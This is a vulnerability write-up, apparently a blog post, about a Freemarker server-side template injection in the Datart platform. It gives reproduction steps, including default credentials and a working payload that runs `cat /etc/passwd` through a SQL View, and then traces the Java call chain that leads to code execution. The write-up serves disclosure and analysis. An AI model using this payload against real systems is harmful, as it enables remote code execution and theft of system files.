

Attempting to analyze the function call chain of a Java vulnerability.

<!--more-->

[Datart](https://github.com/running-elephant/datart) is a data visualization platform that allows users to create reports and dashboards to perform visualized data analysis. Recently we discovered a Freemarker template injection vulnerability that can easily leads to RCE.

## Steps to reproduce

According to [offical docs](https://running-elephant.github.io/datart-docs/docs/), we can deploy datart quickly with Docker:

```
$ docker run -p 8083:8080 datart/datart
```

Use the default credential `demo/123456` to log in. In the Views module, we can create a new View, and here we choose to create an SQL View:


We soon realize that we must select a data source, so we create one first. JDBC data sources require an available database connection, which can be cumbersome. Therefore, we create an HTTP data source with default parameters:



Return to the SQL View creation page, select the data source, and then inject the Freemarker template injection payload:

```java
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("cat /etc/passwd")}
```

Clicking "Run" will execute our command and show the command result as well:


Crucial stack trace:

```
at datart.core.base.exception.Exceptions.tr(Exceptions.java:52)
at datart.data.provider.calcite.SqlValidateUtils.validateQuery(SqlValidateUtils.java:107)
at datart.data.provider.calcite.SqlQueryScriptProcessor.parseSelectSql(SqlQueryScriptProcessor.java:114)
at datart.data.provider.calcite.SqlQueryScriptProcessor.process(SqlQueryScriptProcessor.java:81)
at datart.data.provider.jdbc.SqlScriptRender.render(SqlScriptRender.java:81)
at datart.data.provider.HttpDataProvider.getQueryKey(HttpDataProvider.java:120)
at datart.data.provider.ProviderManager.execute(ProviderManager.java:129)
at datart.server.service.impl.DataProviderServiceImpl.testExecute(DataProviderServiceImpl.java:210)
at datart.server.controller.DataProviderController.testExecute(DataProviderController.java:95)
```

## Analysis

We can perform the analysis with or without the stack trace above. When we don't have the stack trace, we can simply locate Controller-level code according to the API path `/api/v1/data-provider/execute/test`. This leads us to `server/src/main/java/datart/server/controller/DataProviderController.java` where Service-level code `dataProviderService.testExecute()` is called:

```java
    @ApiOperation(value = "Execute Script")
    @PostMapping(value = "/execute/test")
    public ResponseData<Dataframe> testExecute(@RequestBody TestExecuteParam executeParam) throws Exception {
        return ResponseData.success(dataProviderService.testExecute(executeParam));
    }
```

In `server/src/main/java/datart/server/service/impl/DataProviderServiceImpl.java`, `testExecute()` passes user input parameters into `queryScript.script` (with no SSTI filters) and calls `dataProviderManager.execute()`:

```java
    @Override
    public Dataframe testExecute(TestExecuteParam testExecuteParam) throws Exception {
        // ...
        QueryScript queryScript = QueryScript.builder()
                .test(true)
                .sourceId(source.getId())
                .script(testExecuteParam.getScript())
                .scriptType(testExecuteParam.getScriptType())
                .variables(variables)
                .build();
        // ...
        return dataProviderManager.execute(providerSource, queryScript, executeParam);
    }
```

In `data-providers/data-provider-base/src/main/java/datart/data/provider/ProviderManager.java`, `execute()` will preprocess the Query and call `dataProvider.getQueryKey()`:

```java
    @Override
    public Dataframe execute(DataProviderSource source, QueryScript queryScript, ExecuteParam param) throws Exception {

        //sql + param preprocessing
        ProcessorResponse preProcessorRes = this.preProcessorQuery(source, queryScript, param);
        if (!preProcessorRes.isSuccess()) {
            return Dataframe.empty();
        }
        Dataframe dataframe;

        DataProvider dataProvider = getDataProviderService(source.getType());

        String queryKey = dataProvider.getQueryKey(source, queryScript, param);
        // ...
        return dataframe;
    }
```

Datart supports 3 types of Data Provider: JDBC, HTTP and File. Here we use more-complexed JDBC Data Provider as an example, and the rest two are the same. In `data-providers/jdbc-data-provider/src/main/java/datart/data/provider/JdbcDataProvider.java`, `getQueryKey()` called `adapter.getQueryKey()`:

```java
    @Override
    public String getQueryKey(DataProviderSource config, QueryScript script, ExecuteParam executeParam) throws Exception {
        JdbcDataProviderAdapter adapter = matchProviderAdapter(config);
        return adapter.getQueryKey(script, executeParam);
    }
```

In `data-providers/jdbc-data-provider/src/main/java/datart/data/provider/jdbc/adapters/JdbcDataProviderAdapter.java`, a `SqlScriptRender` object is created and its `render()` method is called:

```java
    public String getQueryKey(QueryScript script, ExecuteParam executeParam) throws SqlParseException {
        SqlScriptRender render = new SqlScriptRender(script, executeParam, getSqlDialect(), jdbcProperties.isEnableSpecialSql(), driverInfo.getQuoteIdentifiers());
        return "Q" + DigestUtils.md5Hex(render.render(true, supportPaging(), true) + ";includeColumns:" + JSON.toJSONString(executeParam.getIncludeColumns()) + ";viewId:" + script.getViewId() + ";pageInfo:" + JSON.toJSONString(executeParam.getPageInfo()));
    }
```

What does this `render()` method do? In `data-providers/data-provider-base/src/main/java/datart/data/provider/jdbc/SqlScriptRender.java`, we see that it will use `getScriptProcessor()` to retrieve a `ScriptProcessor` object, and then call its `process()` method:

```java
    public String render(boolean withExecuteParam, boolean withPage, boolean onlySelectStatement) throws SqlParseException {
        //get the original value before processing the script
        QueryScriptProcessResult result = getScriptProcessor().process(queryScript);
        // ...
        return selectSql;
    }
```

When we use SQL view, it returns a `SqlQueryScriptProcessor` object:

```java
    public QueryScriptProcessor getScriptProcessor() {
        switch (queryScript.getScriptType()) {
            case SQL:
                return new SqlQueryScriptProcessor(enableSpecialSQL, sqlDialect);
            case STRUCT:
                return new StructScriptProcessor();
            default:
                Exceptions.msg("Unsupported script type " + queryScript.getScriptType());
                return null;
        }
    }
```

Finally, in `data-providers/data-provider-base/src/main/java/datart/data/provider/calcite/SqlQueryScriptProcessor.java`, `process()` will call `FreemarkerContext.process()` to parse `queryScript.script`, triggering command execution:

```java
    @Override
    public QueryScriptProcessResult process(QueryScript queryScript) {

        String script;

        //用freemarker处理脚本中的条件表达式
        Map<String, ?> dataMap = queryScript.getVariables()
                .stream()
                .collect(Collectors.toMap(ScriptVariable::getName,
                        variable -> {
                            if (CollectionUtils.isEmpty(variable.getValues())) {
                                return "";
                            } else if (variable.getValues().size() == 1) {
                                return variable.getValues().iterator().next();
                            } else return variable.getValues();
                        }));

        script = FreemarkerContext.process(queryScript.getScript(), dataMap);
        // ...
        return result;
    }
```

(`data-providers/data-provider-base/src/main/java/datart/data/provider/freemarker/FreemarkerContext.java`)

```java
    public static String process(String content, Map<String, ?> dataModel) {
        String key = DigestUtils.md5DigestAsHex(content.getBytes());
        try {
            StringTemplateLoader.SCRIPT_MAP.put(key, content);
            Template template = conf.getTemplate(key);
            StringWriter writer = new StringWriter();
            template.process(dataModel, writer);
            return writer.toString();
        } catch (Exception e) {
            log.error("freemarker parse error", e);
        }
        return content;
    }
```

## Reference

1. [Breaking the Barrier: Remote Code Execution via SSTI in FreeMarker Template Engine](https://medium.com/@armaanpathan/breaking-the-barrier-remote-code-execution-via-ssti-in-freemarker-template-engine-9797079752ac)
